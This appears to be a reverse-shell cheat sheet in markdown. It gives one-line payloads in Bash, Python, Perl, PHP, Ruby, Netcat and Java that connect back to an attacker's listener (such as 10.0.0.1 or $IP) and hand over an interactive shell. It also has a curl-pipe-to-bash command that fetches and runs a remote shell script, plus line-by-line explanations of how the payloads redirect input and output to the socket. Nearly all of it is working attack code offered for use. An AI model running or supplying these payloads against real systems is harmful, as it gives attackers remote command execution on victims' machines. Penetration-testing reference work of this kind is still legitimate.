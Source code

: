 ## TOC

- [TOC](#toc)
- [Bash](#bash)
- [Python](#python)
- [Perl](#perl)
- [PHP](#php)
- [Ruby](#ruby)
- [Netcat](#netcat)
- [Java](#java)

**Refs:**

- [https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [https://hypothetical.me/post/reverse-shell-in-bash/](https://hypothetical.me/post/reverse-shell-in-bash/)
- [https://www.gnucitizen.org/blog/reverse-shell-with-bash/](https://www.gnucitizen.org/blog/reverse-shell-with-bash/)
- [https://github.com/Screetsec/TheFatRat](https://github.com/Screetsec/TheFatRat)

## Bash

````bash
# 1. Host machine
nc -lvnp 4444

# 2. Remote machine
## Method1
bash -i >& /dev/tcp/$IP/4444 0>&1
## Method2, conn.sh: more general
```
exec 5<>/dev/tcp/$IP/4444
cat <&5 | while read line; do $line 2>&5 >&5; done
```
bash conn.sh
# This Bash script establishes a TCP connection to $IP on port $Port and associates 
# file descriptor 5 with both input and output of the connection. It then reads data from 
# the input of the socket, executes each line as a command, and redirects the output of 
# the command back to the output of the socket. The purpose of this script is to give remote
# command execution control to an attacker at $IP, who can execute arbitrary commands 
# on the victim's system using this control.

## Other shells (zsh, fish)
````

```bash
# Explain the details inside this command.
bash -i >& /dev/tcp/$IP/4444 0>&1
```

- first, Bash will check if special files `/dev/tcp/<host>/<port>` are supported by your OS and if they aren’t, it will emulate them by opening a TCP connection to `$IP:4444` for you
- it will also *reassign* all three standard streams (stdin, stdout, and stderr)  to the socket with this new connection, so all the output will go into, and input will be read from this socket
- then it will start a new interactive Bash session

```bash
# curl remote shell file and run it.
curl http://YOUR_SERVER/shell.sh | bash
# shell.sh content:
#   bash -i >& /dev/tcp/YOUR_HOST_IP/LISTEN_PORT 0>&1
```



## Python

Environment ok:

- [x] Linux/Python2.7
- [x] Kali/Python3.11.2

one-line rshell:

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

unfold one-line py script for easier comprehension:

```python
import socket,subprocess,os;
# create a socket obj that uses IPv4 address family (socket.AF_INET) and TCP protocol (socket.SOCK_STREAM) for communication.
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
# establish a TCP connection with a remote host.
# after this, the socket obj can be used to send and receive data.
s.connect(("10.0.0.1",1234));
# duplicate the file descriptor for the socket object onto the standard input, output, and error streams of the current process
# this allows the process to use the socket object for input and output instead of the standard streams
os.dup2(s.fileno(),0); # s.fileno() returns the integer file descriptor associated with the socket obj s.
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
# execute a shell command ("/bin/sh -i") with its standard input and output redirected to the socket object
# this allows the attacker to execute arbitrary commands on the victim's system through the established connection
p=subprocess.call(["/bin/sh","-i"]);
```



## Perl

one-line rshell:

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

more featureful and robust rshell-file: [perl-rshell.perl](https://pentestmonkey.net/tools/web-shells/perl-reverse-shell)



## PHP

one-line rshell:

This code assumes that the TCP connection uses file descriptor 3; if does not work, try 4, 5, 6 ...

```php
php -r '$sock=fsockopen("10.134.188.54",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

more featureful and robust rshell-file: [php-rshell.php](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)



## Ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```



## Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

```bash
nc -e /bin/sh 10.0.0.1 1234
```



## Java

Ref: [Java Reverse Shell](https://blog.spoock.com/2018/11/07/java-reverse-shell/)

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

